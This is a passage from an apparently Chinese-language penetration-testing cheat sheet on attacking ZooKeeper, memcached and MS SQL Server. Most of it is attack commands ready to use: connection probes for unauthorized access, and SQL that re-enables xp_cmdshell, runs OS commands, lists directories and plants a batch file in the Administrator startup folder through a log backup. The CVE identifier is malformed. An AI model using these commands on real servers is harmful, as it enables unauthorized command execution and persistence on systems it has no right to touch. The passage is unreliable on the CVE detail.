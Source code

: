     ./zkCli.sh -server <ip>:port
    ```

**CVE-2014-085 ZooKeeper 信息泄露漏洞**
- 文章
    - [ZooKeeper信息泄露漏洞(CVE-2014-085)](https://blog.csdn.net/u011721501/article/details/44062617)

---

## 数据库
### memcached
**未授权访问漏洞**
- POC | Payload | exp

    `telnet <ip> 11211`

    `nc -vv <ip> 11211`

### MS SQL Server
**文章**
- [从攻击MS SQL Server到获得系统访问权限](https://www.freebuf.com/articles/database/22997.html)

**提权**
- **SA 提权**
    1. 判断扩展存储是否存在：
        ```
        select count(*) from master.dbo.sysobjects where xtype = 'x' AND name= 'xp_cmdshell'
        select count(*) from master.dbo.sysobjects where name='xp_regread'
        恢复：
        exec sp_dropextendedproc 'xp_cmdshell'
        exec sp_dropextendedproc xp_cmdshell,'xplog70.dll'
        EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;(SQL2005)
        ```

    2. 列目录：
        ```
        exec master..xp_cmdshell 'ver'
        (or) exec master..xp_dirtree 'c:\',1,1
        (or) drop table black
        create TABLE black(mulu varchar(7996) NULL,ID int NOT NULL IDENTITY(1,1))--
        insert into black exec master..xp_cmdshell 'dir c:\'
        select top 1 mulu from black where id=1
        xp_cmdshell 被删除时，可以用(4.a)开启沙盒模式，然后(4.b)方法提权
        ```

    3. 备份启动项：
        ```
        alter database [master] set RECOVERY FULL
        create table cmd (a image)
        backup log [master] to disk = 'c:\cmd1' with init
        insert into cmd (a) values (0x(batcode))
        backup log [master] to disk = 'C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\start.bat'
        drop table cmd
        ```
